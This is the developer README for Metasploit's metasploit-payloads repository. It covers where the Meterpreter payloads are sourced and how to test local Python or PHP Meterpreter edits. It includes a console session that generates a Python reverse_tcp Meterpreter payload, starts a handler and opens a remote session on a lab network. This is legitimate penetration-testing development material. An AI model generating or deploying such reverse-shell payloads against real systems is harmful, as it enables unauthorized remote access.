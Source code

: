 metasploit-payloads
===================

Appveyor build status: [![Build Status](https://ci.appveyor.com/api/projects/status/github/rapid7/metasploit-payloads)](https://ci.appveyor.com/project/appveyor-r7/metasploit-payloads)

This is a unified repository for different Metasploit Framework payloads, which merges these repositories:

 * [C Windows Meterpreter][csource]
 * [Java and Android Meterpreter and Payloads][javasource]
 * [Python and PHP Meterpreter][frameworksource]

An alternate cross-platform C Meterpreter, called Mettle, is developed at https://github.com/rapid7/mettle

See the individual directories for meterpreter-specific README, build instructions and license details:

 * [C Windows/Linux Meterpreters][creadme]
 * [Java/Android Meterpreters and Payloads][javareadme]

For Python and PHP Meterpreter, you can test changes to these files by symlinking the associated files to `~/.msf4/payloads/meterpreter`.
As an example, here is how this might look like for a Python Meterpreter edit:

```bash
mkdir ~/.msf4/payloads # If this doesn't exist already
cd ~/git/metasploit-payloads
ln -s /home/gwillcox/git/metasploit-payloads/python/meterpreter/ext_server_stdapi.py /home/gwillcox/.msf4/payloads/meterpreter/ext_server_stdapi.py
file ~/.msf4/payloads/meterpreter/ext_server_stdapi.py
       /home/gwillcox/.msf4/payloads/meterpreter/ext_server_stdapi.py: symbolic link to /home/gwillcox/git/metasploit-payloads/python/meterpreter/ext_server_stdapi.py
```

If things went right you should see a warning message when selecting one of the corresponding Meterpreter payloads and recieving a session:

```
msf6 > use payload/python/meterpreter/reverse_tcp
msf6 payload(python/meterpreter/reverse_tcp) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf6 payload(python/meterpreter/reverse_tcp) > generate -f raw -o reverse.py
[*] Writing 436 bytes to reverse.py...
msf6 payload(python/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 192.168.153.128:4444 
msf6 payload(python/meterpreter/reverse_tcp) > WARNING: Local file /home/gwillcox/.msf4/payloads/meterpreter/meterpreter.py is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[*] Sending stage (24380 bytes) to 192.168.153.1
WARNING: Local file /home/gwillcox/.msf4/payloads/meterpreter/ext_server_stdapi.py is being used
[*] Meterpreter session 1 opened (192.168.153.128:4444 -> 192.168.153.1:50334) at 2022-12-13 12:49:49 -0600
```

  [csource]: https://github.com/rapid7/meterpreter
  [creadme]: https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter
  [javasource]: https://github.com/rapid7/metasploit-javapayload
  [javareadme]: https://github.com/rapid7/metasploit-payloads/tree/master/java
  [frameworksource]: https://github.com/rapid7/metasploit-framework/tree/master/data/meterpreter
  [build_icon_windows]: https://ci.metasploit.com/buildStatus/icon?job=MeterpreterWin
  [build_icon_posix]: https://travis-ci.org/rapid7/meterpreter.png?branch=master

